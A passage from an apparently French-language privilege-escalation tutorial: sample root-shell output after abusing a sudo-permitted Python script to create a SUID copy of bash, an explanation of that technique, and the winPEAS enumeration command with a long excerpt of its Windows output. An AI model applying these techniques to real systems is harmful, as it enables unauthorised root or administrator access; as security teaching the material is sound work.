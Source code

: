 **Sortie typique :**
```
rootbash-5.0# id
uid=33(www-data) gid=33(www-data) euid=0(root) egid=0(root) groups=0(root),33(www-data)
rootbash-5.0# whoami
root
```

**Analyse :** Cette séquence de commandes exploite le fait que l'utilisateur www-data peut exécuter un script Python spécifique avec sudo. L'attaquant crée un script Python malveillant qui copie le binaire bash et lui attribue le bit SUID, puis l'exécute avec sudo. Cela permet de créer un shell avec les privilèges effectifs de root, contournant ainsi les restrictions de sécurité.

**Commande pour identifier les opportunités d'élévation de privilèges sur Windows :**
```powershell
.\winPEAS.exe
```

**Sortie typique (extrait) :**
```
====================================================================================================
BASIC SYSTEM INFO
====================================================================================================

  [+] WINDOWS OS
    [i] Check for vulnerabilities for the OS version with the applied patches
    [?] https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation#kernel-exploits
    OS Name: Microsoft Windows Server 2019 Standard
    OS Version: 10.0.17763 N/A Build 17763
    System Type: x64-based PC

  [+] USERS
    [i] Check users with admin privileges or interesting groups
    Current user: web
    Current groups: Users
    
    BUILTIN\Administrators
      Administrator: Built-in account for administering the computer/domain
      admin: Administrator
    
    *BUILTIN\Users
      DefaultAccount: A user account managed by the system.
      WDAGUtilityAccount: A user account managed and used by the system for Windows Defender Application Guard scenarios.
      web: Web Server User
    
    *BUILTIN\Remote Desktop Users
      admin: Administrator
      web: Web Server User

  [+] CURRENT USER
    [i] Check if you have some admin privileges or if you have write permissions on sensitive folders
    Current user: web
    Current groups: Users, Remote Desktop Users
    Privileges:
      SeChangeNotifyPrivilege: Enabled
      SeIncreaseWorkingSetPrivilege: Enabled

====================================================================================================
SERVICES INFORMATION
```